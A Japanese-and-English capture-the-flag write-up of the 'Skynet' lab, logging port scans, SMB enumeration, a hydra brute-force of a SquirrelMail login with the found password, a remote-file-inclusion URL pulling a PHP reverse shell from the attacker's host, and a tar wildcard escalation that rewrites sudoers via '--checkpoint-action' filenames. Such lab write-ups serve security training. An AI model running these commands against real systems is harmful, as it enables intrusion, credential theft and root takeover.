

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Linux |
| 難易度 | 記録なし |
| 攻撃対象 | 22/tcp  open  ssh, 80/tcp  open  http, 110/tcp open  pop3, 139/tcp open  netbios-ssn, 143/tcp open  imap, 445/tcp open  netbios-ssn |
| 主な侵入経路 | brute-force, smb-enumeration, privilege-escalation |
| 権限昇格経路 | Local misconfiguration or credential reuse to elevate privileges |

## 偵察

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 なぜ有効か  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## 初期足がかり

### Not implemented (or log not saved)


## Nmap
```bash
nmap -p- -sC -sV -T4 -A -Pn $ip
✅[22:55][CPU:1][MEM:50][IP:10.11.87.75][...e/n0z0/work/thm/Game_Zone]
🐉 > nmap -p- -sC -sV -T4 -A -Pn $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 22:56 JST
Nmap scan report for 10.10.51.139
Host is up (0.24s latency).
Not shown: 65455 closed tcp ports (reset), 74 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/27%OT=22%CT=1%CU=34307%PV=Y%DS=2%DC=I%G=Y%TM=671
OS:E4D4D%P=x86_64-pc-linux-gnu)SEQ()SEQ(SP=105%GCD=1%ISR=108%TI=Z%CI=I%II=I
OS:%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O
OS:5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6
OS:=68DF)ECN(R=N)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=N)T1(R=
OS:Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T4(R=Y%DF=Y%T=40%
OS:W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)T7(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=N)U1(R=Y%DF=N%T=40%IPL=164%
OS:UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 50531/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1736.90 seconds
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

まずスキャン

```bash
✅[22:55][CPU:1][MEM:50][IP:10.11.87.75][...e/n0z0/work/thm/Game_Zone]
🐉 > nmap -p- -sC -sV -T4 -A -Pn $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 22:56 JST
Nmap scan report for 10.10.51.139
Host is up (0.24s latency).
Not shown: 65455 closed tcp ports (reset), 74 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/27%OT=22%CT=1%CU=34307%PV=Y%DS=2%DC=I%G=Y%TM=671
OS:E4D4D%P=x86_64-pc-linux-gnu)SEQ()SEQ(SP=105%GCD=1%ISR=108%TI=Z%CI=I%II=I
OS:%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O
OS:5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6
OS:=68DF)ECN(R=N)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=N)T1(R=
OS:Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T4(R=Y%DF=Y%T=40%
OS:W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)T7(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=N)U1(R=Y%DF=N%T=40%IPL=164%
OS:UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 50531/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1736.90 seconds
```

smbのスキャンで結構いろいろ見つかるね

```bash
✅[22:55][CPU:1][MEM:50][IP:10.11.87.75][/home/n0z0]
🐉 > enum4linux -a $ip
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Oct 27 22:56:39 2024

 =========================================( Target Information )=========================================

Target ........... 10.10.51.139
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

 ============================( Enumerating Workgroup/Domain on 10.10.51.139 )============================

[E] Can't find workgroup/domain

 ================================( Nbtstat Information for 10.10.51.139 )================================

Looking up status of 10.10.51.139
        SKYNET          <00> -         B <ACTIVE>  Workstation Service
        SKYNET          <03> -         B <ACTIVE>  Messenger Service
        SKYNET          <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ===================================( Session Check on 10.10.51.139 )===================================

[+] Server 10.10.51.139 allows sessions using username '', password ''

 ================================( Getting domain SID for 10.10.51.139 )================================

Domain Name: WORKGROUP
Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup

 ===================================( OS information on 10.10.51.139 )===================================

[E] Can't get OS info with smbclient

[+] Got OS info for 10.10.51.139 from srvinfo:
        SKYNET         Wk Sv PrQ Unx NT SNT skynet server (Samba, Ubuntu)
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03

 =======================================( Users on 10.10.51.139 )=======================================

index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: milesdyson       Name:   Desc:

user:[milesdyson] rid:[0x3e8]

 =================================( Share Enumeration on 10.10.51.139 )=================================

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            SKYNET

[+] Attempting to map shares on 10.10.51.139

//10.10.51.139/print$   Mapping: DENIED Listing: N/A Writing: N/A
//10.10.51.139/anonymous        Mapping: OK Listing: OK Writing: N/A
//10.10.51.139/milesdyson       Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:

NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
//10.10.51.139/IPC$     Mapping: N/A Listing: N/A Writing: N/A

 ============================( Password Policy Information for 10.10.51.139 )============================

[+] Attaching to 10.10.51.139 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] SKYNET
        [+] Builtin

[+] Password Info for Domain: SKYNET

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: 37 days 6 hours 21 minutes
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes
        [+] Locked Account Duration: 30 minutes
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: 37 days 6 hours 21 minutes

[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 5

 =======================================( Groups on 10.10.51.139 )=======================================

[+] Getting builtin groups:

[+]  Getting builtin group memberships:

[+]  Getting local groups:

[+]  Getting local group memberships:

[+]  Getting domain groups:

[+]  Getting domain group memberships:

 ==================( Users on 10.10.51.139 via RID cycling (RIDS: 500-550,1000-1050) )==================

[I] Found new SID:
S-1-22-1

[I] Found new SID:
S-1-5-32

[I] Found new SID:
S-1-5-32

[I] Found new SID:
S-1-5-32

[I] Found new SID:
S-1-5-32

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1001 Unix User\milesdyson (Local User)

[+] Enumerating users using SID S-1-5-21-2393614426-3774336851-1116533619 and logon username '', password ''

S-1-5-21-2393614426-3774336851-1116533619-501 SKYNET\nobody (Local User)
S-1-5-21-2393614426-3774336851-1116533619-513 SKYNET\None (Domain Group)

 ===============================( Getting printer info for 10.10.51.139 )===============================

Cannot connect to server.  Error was NT_STATUS_IO_TIMEOUT

enum4linux complete on Sun Oct 27 23:20:20 2024
```

ファジングすると有効そうなサブディレクトリのページが見つかる

```bash
❌[1:21][CPU:1][MEM:48][IP:10.11.87.75][/home/n0z0]
🐉 > feroxbuster -u http://$ip -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100 -r --timeout 3 --no-state -s 200,301 -e -E

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.94.219
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
 👌  Status Codes          │ [200, 301]
 💥  Timeout (secs)        │ 3
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💰  Collect Extensions    │ true
 💸  Ignored Extensions    │ [Images, Movies, Audio, etc...]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      159l      221w     2667c http://10.10.94.219/style.css
200      GET      144l      598w    44162c http://10.10.94.219/image.png
200      GET       18l       43w      523c http://10.10.94.219/
200      GET       76l      277w     2912c http://10.10.94.219/squirrelmail/src/login.php
[>-------------------] - 17m   395276/12651774 20h     found:4       errors:146541
[>-------------------] - 17m    60815/2528678 58/s    http://10.10.94.219/
[>-------------------] - 17m    59619/2529574 57/s    http://10.10.94.219/admin/
[>-------------------] - 17m    57939/2530605 56/s    http://10.10.94.219/css/
[>-------------------] - 17m    57645/2531298 56/s    http://10.10.94.219/js/
[>-------------------] - 17m    57615/2531602 56/s    http://10.10.94.219/config/
```

探ってみると不思議なページたどり着いた


*Caption: Screenshot captured during skynet attack workflow (step 1).*

パスワード解析完了

```bash
❌[2:00][CPU:1][MEM:48][IP:10.11.87.75][/home/n0z0]
🐉 > hydra -l milesdyson -P ~/work/thm/Skynet/log1.txt $ip http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-28 02:00:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://10.10.94.219:80/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect
[80][http-post-form] host: 10.10.94.219   login: milesdyson   password: cyborg007haloterminator
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-28 02:00:4
```


*Caption: Screenshot captured during skynet attack workflow (step 2).*

)s{A&2Z=F^n_E.B`

```
smb: \> cd  notes
smb: \notes\> ls
  .                                   D        0  Tue Sep 17 18:18:40 2019
  ..                                  D        0  Tue Sep 17 18:05:47 2019
  3.01 Search.md                      N    65601  Tue Sep 17 18:01:29 2019
  4.01 Agent-Based Models.md          N     5683  Tue Sep 17 18:01:29 2019
  2.08 In Practice.md                 N     7949  Tue Sep 17 18:01:29 2019
  0.00 Cover.md                       N     3114  Tue Sep 17 18:01:29 2019
  1.02 Linear Algebra.md              N    70314  Tue Sep 17 18:01:29 2019
  important.txt                       N      117  Tue Sep 17 18:18:39 2019
  6.01 pandas.md                      N     9221  Tue Sep 17 18:01:29 2019
  3.00 Artificial Intelligence.md      N       33  Tue Sep 17 18:01:29 2019
  2.01 Overview.md                    N     1165  Tue Sep 17 18:01:29 2019
  3.02 Planning.md                    N    71657  Tue Sep 17 18:01:29 2019
  1.04 Probability.md                 N    62712  Tue Sep 17 18:01:29 2019
  2.06 Natural Language Processing.md      N    82633  Tue Sep 17 18:01:29 2019
  2.00 Machine Learning.md            N       26  Tue Sep 17 18:01:29 2019
  1.03 Calculus.md                    N    40779  Tue Sep 17 18:01:29 2019
  3.03 Reinforcement Learning.md      N    25119  Tue Sep 17 18:01:29 2019
  1.08 Probabilistic Graphical Models.md      N    81655  Tue Sep 17 18:01:29 2019
  1.06 Bayesian Statistics.md         N    39554  Tue Sep 17 18:01:29 2019
  6.00 Appendices.md                  N       20  Tue Sep 17 18:01:29 2019
  1.01 Functions.md                   N     7627  Tue Sep 17 18:01:29 2019
  2.03 Neural Nets.md                 N   144726  Tue Sep 17 18:01:29 2019
  2.04 Model Selection.md             N    33383  Tue Sep 17 18:01:29 2019
  2.02 Supervised Learning.md         N    94287  Tue Sep 17 18:01:29 2019
  4.00 Simulation.md                  N       20  Tue Sep 17 18:01:29 2019
  3.05 In Practice.md                 N     1123  Tue Sep 17 18:01:29 2019
  1.07 Graphs.md                      N     5110  Tue Sep 17 18:01:29 2019
  2.07 Unsupervised Learning.md       N    21579  Tue Sep 17 18:01:29 2019
  2.05 Bayesian Learning.md           N    39443  Tue Sep 17 18:01:29 2019
  5.03 Anonymization.md               N     2516  Tue Sep 17 18:01:29 2019
  5.01 Process.md                     N     5788  Tue Sep 17 18:01:29 2019
  1.09 Optimization.md                N    25823  Tue Sep 17 18:01:29 2019
  1.05 Statistics.md                  N    64291  Tue Sep 17 18:01:29 2019
  5.02 Visualization.md               N      940  Tue Sep 17 18:01:29 2019
  5.00 In Practice.md                 N       21  Tue Sep 17 18:01:29 2019
  4.02 Nonlinear Dynamics.md          N    44601  Tue Sep 17 18:01:29 2019
  1.10 Algorithms.md                  N    28790  Tue Sep 17 18:01:29 2019
  3.04 Filtering.md                   N    13360  Tue Sep 17 18:01:29 2019
  1.00 Foundations.md                 N       22  Tue Sep 17 18:01:29 2019

                9204224 blocks of size 1024. 5756472 blocks available
smb: \notes\> get important.txt
getting file \notes\important.txt of size 117 as important.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \notes\> SMBecho failed (NT_STATUS_INVALID_NETWORK_RESPONSE). The connection is disconnected now
```


*Caption: Screenshot captured during skynet attack workflow (step 3).*

リバースシェルをダウンロードするコマンドを実行する

```
http://10.10.248.150/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.87.75:8000/php-reverse-shell.php
```


*Caption: Screenshot captured during skynet attack workflow (step 4).*

limpeaseを実行する

crontab見るとroot権限でシェルが実行されてそう

```bash
www-data@skynet:/home/milesdyson$ cat /etc/crontab
cat /etc/crontab

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
www-data@skynet:/home/milesdyson$ cat /home/milesdyson/backups/backup.sh
cat /home/milesdyson/backups/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
www-data@skynet:/home/milesdyson$ echo $shell
cat /home/milesdyson/backups/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

/var/www/htmlディレクトリは自由にできる。

echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html"  > --checkpoint=1

💡 なぜ有効か  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## 権限昇格

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

This command is executed during privilege escalation to validate local misconfigurations and escalation paths. We are looking for delegated execution rights, writable sensitive paths, or credential artifacts. Any positive result is immediately chained into a higher-privilege execution attempt.
```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html"  > --checkpoint=1
```

💡 なぜ有効か  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## 認証情報

```text
[80][http-post-form] host: 10.10.94.219   login: milesdyson   password: cyborg007haloterminator
```

## まとめ・学んだこと

### 4.Overview

---




## 参考文献

- nmap
- rustscan
- hydra
- sudo
- ssh
- cat
- find
- php
- GTFOBins
